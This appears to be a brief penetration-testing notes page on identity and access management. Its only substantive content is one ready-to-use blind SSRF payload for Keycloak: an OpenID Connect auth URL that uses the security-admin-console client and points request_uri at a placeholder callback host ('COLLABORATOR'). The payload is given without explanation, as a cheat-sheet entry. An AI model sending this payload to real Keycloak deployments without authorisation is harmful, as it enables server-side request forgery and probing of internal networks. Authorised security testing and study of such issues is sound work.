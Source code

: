 ```yaml
---
layout: notes
permalink: /notes/tech/iam/
title: Pentesting Identity & Access Management (IAM)
---
```


# Pentesting IAMs

## KeyCloak
```bash
#Blind SSRF
/auth/realms/master/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=cfx&nonce=cfx&client_id=security-admin-console&request_uri=http://COLLABORATOR
```